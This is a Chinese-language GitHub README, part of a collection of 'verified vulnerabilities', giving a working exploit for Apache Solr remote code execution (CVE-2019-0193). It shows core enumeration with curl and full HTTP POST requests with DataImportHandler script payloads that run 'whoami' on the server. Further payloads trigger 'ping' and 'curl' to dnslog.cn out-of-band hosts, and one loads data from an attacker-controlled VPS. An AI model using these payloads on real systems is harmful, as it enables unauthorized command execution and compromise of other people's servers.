



# Collection of verified vulnerabilities

## Apache Solr Rce cve-2019-0193

核心：
```bash
curl http://192.168.1.1:991/solr/admin/cores\?wt\=json                  
{"responseHeader":{"status":0,"QTime":17},"initFailures":{},"status":{"core1":{"name":"core1","instanceDir":"D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\core1","dataDir":"D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\core1\\data\\","config":"solrconfig.xml","schema":"managed-schema","startTime":"2021-04-25T12:43:08.088Z","uptime":62054759,"index":{"numDocs":181826,"maxDoc":181827,"deletedDocs":1,"indexHeapUsageBytes":-1,"version":15488,"segmentCount":13,"current":false,"hasDeletions":true,"directory":"org.apache.lucene.store.NRTCachingDirectory:NRTCachingDirectory(MMapDirectory@D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\core1\\data\\index lockFactory=org.apache.lucene.store.NativeFSLockFactory@50d44b11; maxCacheMB=48.0 maxMergeSizeMB=4.0)","segmentsFile":"segments_1z0","segmentsFileSizeInBytes":-1,"userData":{"commitTimeMSec":"1619351488535"},"lastModified":"2021-04-25T11:51:28.535Z","sizeInBytes":81525254,"size":"77.75 MB"}},"us_series":{"name":"us_series","instanceDir":"D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\us_series","dataDir":"D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\us_series\\data\\","config":"solrconfig.xml","schema":"managed-schema","startTime":"2021-02-22T09:35:28.041Z","uptime":5429953208,"index":{"numDocs":0,"maxDoc":0,"deletedDocs":0,"indexHeapUsageBytes":0,"version":10,"segmentCount":0,"current":false,"hasDeletions":false,"directory":"org.apache.lucene.store.NRTCachingDirectory:NRTCachingDirectory(MMapDirectory@D:\\apache-tomcat-8.5.32\\webapps\\solr\\solrHome\\us_series\\data\\index lockFactory=org.apache.lucene.store.NativeFSLockFactory@50d44b11; maxCacheMB=48.0 maxMergeSizeMB=4.0)","segmentsFile":"segments_3","segmentsFileSizeInBytes":-1,"userData":{"commitTimeMSec":"1591665641933"},"lastModified":"2020-06-09T01:20:41.933Z","sizeInBytes":1508,"size":"1.47 KB"}}}}
```
可利用的核心就是`core1`、`us_series`；即可构造传参url：

- http://192.168.1.1:991/solr/core1/dataimport
- http://192.168.1.1:991/solr/us_series/dataimport
- 有回显：
    - 找到利用核心 -> payload写入 -> RCE
    - [*点击以进一步了解*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheSolr/README.MD#-%E6%9C%89%E5%9B%9E%E6%98%BEpayload)
- 无回显：
    - 找到利用核心 -> payload写入 -> RCE
    - [*点击以进一步了解*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheSolr/README.MD#-%E6%97%A0%E5%9B%9E%E6%98%BEpayload)

### # 1x01 恶意xml引用
引用地址`(https://raw.githubusercontent.com/Bin4xin/bigger-than-bigger/master/CoVV/ApacheSolr/solr.xml)`

### # 有回显payload

```
POST /solr/core1/dataimport?command=full-import&debug=true&wt=json
&indent=true&verbose=false&clean=false&commit=false&optimize=false&dataConfig= HTTP/1.1

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 212
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
content-type: multipart/form-data; 
boundary=------------------------aceb88c2159f183f


--------------------------aceb88c2159f183f
Content-Disposition: form-data; name="stream.body"

<?xml version="1.0" encoding="UTF-8"?>
<RDF>
<item/>
</RDF>

--------------------------aceb88c2159f183f--
```
（放到Decoder模块url编码）dataConfig：
```
<dataConfig>

  <dataSource type="URLDataSource"/>
  <script><![CDATA[

          function poc(row){

var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()));

var result = [];

while(true) {
var oneline = bufReader.readLine();
result.push( oneline );
if(!oneline) break;
}

row.put("title",result.join("\n\r"));

return row;

}

  ]]></script>

        <document>
             <entity name="entity1"
                     url="http://{your_vps_ip}:{your_vps_port}/bin4xin.xml"
                     processor="XPathEntityProcessor"
                     forEach="/RDF/item"
                     transformer="script:poc">
                        <field column="title" xpath="/RDF/item/title" />
             </entity>
        </document>
</dataConfig>
```




### # 无回显payload

区别在于dataConfig：

```
<dataConfig>
<dataSource name="streamsrc" type="ContentStreamDataSource" loggerLevel="TRACE" />

  <script><![CDATA[
          function poc(row){
 var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("ping w5zhv5.dnslog.cn").getInputStream()));

var result = [];

while(true) {
var oneline = bufReader.readLine();
result.push( oneline );
if(!oneline) break;
}

row.put("title",result.join("\n\r"));
return row;

}

]]></script>

<document>
    <entity
        stream="true"
        name="entity1"
        datasource="streamsrc1"
        processor="XPathEntityProcessor"
        rootEntity="true"
        forEach="/RDF/item"
        transformer="script:poc">
             <field column="title" xpath="/RDF/item/title" />
    </entity>
</document>
</dataConfig>

```

### # POST

```bash
POST /solr/core1/dataimport HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 581

command=full-import&verbose=false&clean=false&commit=false&debug=true&core=new_core&name=dataimport&dataConfig=<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(data){
new+java.lang.ProcessBuilder["(java.lang.String[])"](["curl","fy544n.dnslog.cn"]).start()
}
  ]]></script>

  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```




### # 区别
左边无回显，右边有回显



### 参考

[漏洞分析 - Apache Solr远程代码执行漏洞(CVE-2019-0193)](https://xz.aliyun.com/t/5965)